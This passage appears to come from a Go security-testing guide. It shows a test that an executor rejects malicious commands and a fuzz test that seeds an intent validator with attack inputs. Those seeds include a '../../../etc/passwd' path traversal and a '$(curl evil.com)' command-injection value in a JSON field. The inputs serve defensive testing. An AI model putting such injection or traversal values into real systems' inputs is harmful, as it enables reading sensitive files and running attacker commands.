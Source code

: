 ```go
            config := ExecutorConfig{
                PorchPath: cmd,
                Mode:      "direct",
                OutDir:    t.TempDir(),
                Timeout:   5 * time.Second,
            }
            
            executor := NewExecutor(config)
            
            // Should reject malicious commands
            result, err := executor.Execute(context.Background(), "test-intent.json")
            assert.False(t, result.Success)
            assert.Error(t, err)
            
            // Should not execute dangerous operations
            assertNoCommandInjection(t)
        })
    }
}
```

#### Fuzz Testing

**Security Fuzzing Strategy**:
```go
func FuzzSecurityIntentValidation(f *testing.F) {
    // Seed with known attack patterns
    attackSeeds := [][]byte{
        []byte(`{"intent_type":"scaling","target":"../../../etc/passwd","namespace":"default","replicas":3}`),
        []byte(`{"intent_type":"scaling","target":"$(curl evil.com)","namespace":"default","replicas":3}`),
        []byte(`{"intent_type":"scaling","target":"normal","namespace":"default","replicas":-1}`),
        []byte(`{"intent_type":"scaling","target":"normal","namespace":"../system","replicas":999999}`),
    }
    
    for _, seed := range attackSeeds {
        f.Add(seed)
    }
    
    f.Fuzz(func(t *testing.T, data []byte) {
        // Test should never crash, even with malicious input
        defer func() {
            if r := recover(); r != nil {
                t.Errorf("Fuzz test caused panic: %v", r)
            }
        }()
        
        result := validateIntentSecurely(data)
        
        // Even if validation fails, it should fail safely
        if !result.Valid {
            assert.NotEmpty(t, result.Error)
            assert.NotContains(t, result.Error, "panic")
        }
        
        // Should not leak sensitive information in error messages
        assertNoSensitiveDataLeakage(t, result.Error)
    })
}
```

